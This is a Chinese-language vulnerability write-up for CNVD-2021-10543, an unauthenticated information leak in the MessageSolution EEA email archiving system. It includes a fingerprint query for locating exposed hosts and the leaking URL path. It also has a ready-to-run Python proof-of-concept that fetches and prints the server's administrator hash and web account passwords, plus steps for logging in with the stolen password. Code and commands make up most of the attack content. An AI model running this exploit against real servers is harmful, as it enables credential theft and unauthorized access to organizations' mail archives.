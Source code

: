 # MessageSolution 邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543

## 漏洞描述
MessageSolution企业邮件归档管理系统 EEA是北京易讯思达科技开发有限公司开发的一款邮件归档系统。该系统存在通用WEB信息泄漏，泄露Windows服务器administrator hash与web账号密码

## 漏洞影响
MessageSolution 企业邮件归档管理系统EEA

## 漏洞复现
```bash
title="MessageSolution Enterprise Email Archiving (EEA)"
```

登录页面如下

![](resource/MessageSolution邮件归档系统EEA信息泄露漏洞CNVD-2021-10543/media/1.png)

访问如下Url
```bash
http://xxx.xxx.xxx.xxx/authenticationserverservlet/
```
![](resource/MessageSolution邮件归档系统EEA信息泄露漏洞CNVD-2021-10543/media/2.png)

使用获得到的密码可以登录系统
![](resource/MessageSolution邮件归档系统EEA信息泄露漏洞CNVD-2021-10543/media/3.webp)

## 漏洞POC
```bash
@Henry4E36 师傅的POC Github里 
https://github.com/Henry4E36/CNVD-2021-10543 
```

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: MessageSolution 企业邮件归档管理系统EEA                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')


def POC_1(target_url):
    vuln_url = target_url + "/authenticationserverservlet/"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "administrator" in response.text:
            print("\033[32m[o] 目标 {} 存在信息泄露 响应为:{}\033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))




if __name__ == "__main__":
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](resource/MessageSolution邮件归档系统EEA信息泄露漏洞CNVD-2021-10543/media/4.png)
